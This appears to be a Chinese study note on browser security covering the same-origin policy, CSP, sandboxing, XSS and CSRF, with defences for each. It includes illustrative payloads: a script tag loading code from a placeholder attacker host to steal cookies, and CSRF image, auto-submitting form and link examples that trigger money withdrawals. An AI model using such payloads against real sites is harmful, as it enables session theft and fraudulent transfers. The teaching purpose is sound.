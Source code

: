```yaml
---
date created: 2023-03-08 12:20
date updated: 2023-03-08 15:41
---
```


## 大纲

1. 同源策略
2. 浏览器内容安全策略 CSP
3. 沙箱安全
4. 跨站脚本工具 XSS
5. 跨站请求伪造 CSRF

### 同源策略

同源概念 ： 两个 URL 的 协议、域名、端口号 一样，这两个URL 为同源
同源策略的限制：

1. 不同源的 JavaScript 对DOM的读写
2. 不同源站点无法对当前站点的 Cookie、IndexDB、LocalStorage等数据进行读取
3. 限制通过 XMLHttpRequest 等方式将站点数据发送给不同源的站点

### 内容安全策略

内容安全策略 Content Security Policy ，明确告诉客户端浏览器哪些外部资源可以加载，哪些不行。

CSP 开启方式

1. 通过HTTP 响应头中的  Content-Security-Policy 指定能加载哪些源的资源
   ```
    Content-Security-Policy: default-src 'self' *.trusted.com 
   ```
   一个网站管理者允许内容来自信任的域名及其子域名（域名不必须与 CSP 设置所在的域名相同）。
2. 通过 <meta> 元素设定
   ```html
   <meta
     http-equiv="Content-Security-Policy"
     content="default-src 'self'; img-src https://*; child-src 'none';" />
   ```

CSP 的限制选项
CSP 除了能限制脚本的加载和执行，对其他资源也能做限制。

- font-src   字体来源
- img-src   图片来源
- style-src 样式来源

更多可以参看 <https://developers.google.com/web/fundamentals/security/csp>

### 安全沙箱

什么是安全沙箱：浏览器的渲染进程会进行 HTML、CSS 的解析，JS的执行。这部分内容有可能被黑客攻击，黑客可能会获取到渲染进程的权限，进而威胁到操作系统。
所以浏览器有一个机制，将不可信任的代码运行在特定的环境中，限制他访问隔离区以外的资源， 这就是浏览器的 安全沙箱。

渲染进程就在沙箱里面，去要访问Cookie存储、Cache存储、网络请求等等都通过IPC 向浏览器其他进程请求服务。

### 跨站脚本攻击 XSS

概念： 跨站脚本攻击 Cross Site Scripting， 一般指黑客 往HTML 文件中或DOM中注入恶意代码。 一般有三种形式。

1. 存储型XSS攻击
2. 反射型 XSS攻击
3. 基于DOM的XSS攻击

#### 存储型XSS攻击

1. 利用漏洞将恶意代码提交到网站数据库， 如下在评论表单中插入`  <script src="http://xxx.xxx.com/evil"></sript> `
2. 用户向网站请求数据包含了恶意脚本代码的页面。
3. 当用户浏览页面，该恶意脚本就可以通过 document.cookie 获取页面的Cookie 信息。然后发送到黑客的服务器上。通过Cookie模拟用户登陆，然后进行操作。

存在地点： 留言或发生用户存储的地方
特点： 影响范围大

#### 反射型XSS攻击

1. 页面上发送给 服务器信息求中，拼接上恶意的脚本代码。
2. 服务器的信息返回信息时，携带的恶意代码将会给执行。

存在地方： 输入框、页面上跳转的地方
区别： 反射型 没有持久性，不会存在服务器中，一般恶意代码给攻击对象发送RUL。

#### 基于DOM的XSS 攻击

1. 钓鱼网诱导用户访问黑客构造的URL，在加载正常的页面时候通过类似innerHtml 的api， 在DOM植入恶意代码

DOM与前面的却别是不借助服务。

#### 防护策略

1. 对输入的内容进行转码， `<script>` 转成 `&lt;script&gt;` 后脚本就无法执行
2. 设置相应头设置Cookie HttpOnly；
3. 充分利用CSP 现在别的站点代码执行；

### 跨站请求伪造 CSRF

跨站请求伪造（`Cross-site request forgery`）简称是 `CSRF`：是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。

经典流程：

- 用户登录 A 网站，并且保留了登录信息（`Cookie`）；
- 被黑客诱导访问了 B 网站，从 A 跳转到 B；
- B 网站对 A 网站发出请求（这个就是下面将介绍的几种伪造请求的方式），浏览器请求头中会默认携带 A 网站的 `Cookie`；
- A 网站服务器收到请求后，经过验证发现用户是登录了的，所以会处理请求

伪造方式；

1. 自动发送Get请求
   黑客在他自己网站的页面上加载了一张图片，而链接地址是指向那个转账接口。所以需要做的就是，只要某个用户在资金平台 A 上刚登录过，且此时被诱导点击了黑客的页面，一进入这个页面就会自动发起 `GET` 请求去加载图片，实而是去请求去执行转账接口。
   `<img src="https://platforma.com/withdraw?account=hacker名&money=1000">`
2. 自动发送 Post 请求
   ```html
   <form action="https://platforma.com/withdraw" method=POST> <input type="hidden" name="account" value="hacker" /> <input type="hidden" name="money" value="1000" /> </form> <script> document.forms[0].submit()</script>

   ```
3. 伪造点击链接
   ```html
   <img src="美女图片的链接" /> <a href="https://platforma.com/withdraw?account=hacker名&money=1000"> 点击查看更多美女图片 <a/>
   ```

### 如何预防 CSRF
1. 给Coookie 设置 SameSite 
	当从 A 网站登录后，会从响应头中返回服务器设置的 `Cookie` 信息，而如果 `Cookie` 携带了 `SameSite=strict` 则表示完全禁用第三方站点请求头携带 `Cookie`。
2. 使用同源检测
	检测 请求头携带 Origin 或 Referer 属性进行判断是否是同源站点。优先检测Origin 。
3. 添加CSRF Token
	1. 浏览器发送请求给服务器，服务器生成一个 CSRF Token。  然后字符串植入返回的页面中（一般在表单隐藏输入框 防止泄露）
	2. 当发送表单请求，需要携带CSRF Token ；
	3. 如果服务器校验 CSRF Token 失败，拒绝请求